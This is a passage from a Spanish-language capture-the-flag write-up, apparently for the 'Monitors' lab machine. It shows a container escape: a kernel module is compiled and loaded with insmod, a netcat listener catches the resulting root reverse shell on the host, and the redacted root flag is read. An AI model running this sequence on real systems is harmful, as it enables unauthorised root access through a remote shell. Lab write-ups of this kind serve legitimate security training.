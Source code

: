 Ya una vez tengamos estos archivos creados **en el mismo directorio**, utilizaremos el comando `make` para **compilar el modulo**:

```bash
root@1569c10115cc:/tmp/tmp.aKlQEwETu0# ls -la 
total 20
drwx------ 2 root root 4096 Oct 16 10:46 .
drwxrwxrwt 1 root root 4096 Oct 16 10:18 ..
-rw-r--r-- 1 root root  156 Oct 16 10:45 Makefile
-rw-r--r-- 1 root root  736 Oct 16 10:36 reverse.c

root@1569c10115cc:/tmp/tmp.aKlQEwETu0# make
make -C /lib/modules/4.15.0-151-generic/build M=/tmp/tmp.aKlQEwETu0 modules
make[1]: Entering directory '/usr/src/linux-headers-4.15.0-151-generic'
  CC [M]  /tmp/tmp.aKlQEwETu0/reverse.o
  Building modules, stage 2.
  MODPOST 1 modules
  CC      /tmp/tmp.aKlQEwETu0/reverse.mod.o
  LD [M]  /tmp/tmp.aKlQEwETu0/reverse.ko
make[1]: Leaving directory '/usr/src/linux-headers-4.15.0-151-generic'
```
Ya hemos **compilado el modulo**.

Ahora nos pondremos en **escucha** por el puerto que hayamos especificado en el `modulo de kernel`:

```bash
┌─[z3r0byte@z3r0byte]─[~]
└──╼ $ nc -lvnp 4445
Listening on 0.0.0.0 4445
```
Y ejecutaremos este comando en el contenedor de `docker`:

```bash
root@1569c10115cc:/tmp/tmp.aKlQEwETu0# insmod reverse.ko
```
Si hemos hecho todo bien, deberíamos de haber recibido una `shell` como usuario `root` en la máquina vìctima:

```bash
┌─[z3r0byte@z3r0byte]─[~]
└──╼ $ nc -lvnp 4445
Listening on 0.0.0.0 4445
Connection received on 10.10.10.238 40678
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
root@monitors:/# whoami
whoami
root
```
Una vez en este punto, ya podremos visualizar la flag `root.txt` en la ruta `/root/root.txt`:

```bash
root@monitors:/# cat /root/root.txt 
0XXXXXXXXXXXXXXXXXXXXXXXXXXXXXd
```
